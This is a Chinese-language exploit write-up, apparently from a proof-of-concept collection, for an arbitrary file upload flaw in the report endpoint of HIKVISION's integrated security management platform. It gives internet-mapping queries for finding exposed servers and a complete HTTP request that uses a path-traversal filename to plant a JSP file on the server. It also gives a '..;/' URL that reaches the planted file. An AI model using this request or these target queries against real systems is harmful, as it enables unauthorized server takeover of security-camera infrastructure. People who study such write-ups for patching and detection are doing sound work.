 # HIKVISION 综合安防管理平台 report 任意文件上传漏洞

# HIKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面

![image-20220824134144287](/images/202208241341481.png)

```
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![image-20230828163755020](images/image-20230828163755020.png)

```
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![image-20230828163809686](images/image-20230828163809686.png)

构造上传文件（通过 env泄漏获取绝对路径，路径一般不会修改）

```
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![image-20230828163835117](images/image-20230828163835117.png)

```
/portal/ui/login/..;/..;/new.jsp
```

![image-20230828163848482](images/image-20230828163848482.png)

